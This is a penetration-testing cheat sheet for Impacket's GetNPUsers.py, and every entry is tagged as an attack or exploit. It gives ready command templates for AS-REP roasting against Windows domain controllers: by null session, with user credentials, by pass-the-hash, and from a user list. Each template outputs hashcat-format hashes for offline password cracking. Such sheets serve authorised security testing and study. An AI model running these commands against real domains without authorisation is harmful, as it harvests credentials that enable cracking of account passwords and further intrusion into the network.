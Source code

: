 # GetNPUsers (imp)

% impacket-kerberos, windows, kerberos, 88

## ASREPRoasting (null session)
#plateform/linux #target/remote #cat/ATTACK/EXPLOIT 
```
GetNPUsers.py  -request -format hashcat -dc-ip <dc_ip> '<domain_fqdn>/'
```

## ASREPRoasting (user account)
#plateform/linux #target/remote #cat/ATTACK/EXPLOIT 
```
GetNPUsers.py  -request -format hashcat -dc-ip <dc_ip> '<domain_fqdn>/<user>:<password>'
```


## ASREPRoasting (pth)
#plateform/linux #target/remote #cat/ATTACK/EXPLOIT 
```
GetNPUsers.py  -request -format hashcat -dc-ip <dc_ip> -hashes :<nt_hash> '<domain_fqdn>/<user>'
```

## ASREPRoasting (userlist)
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
GetNPUsers.py -dc-ip <dc_ip> <domain_fqdn>/ -usersfile <users_file> -format hashcat
```
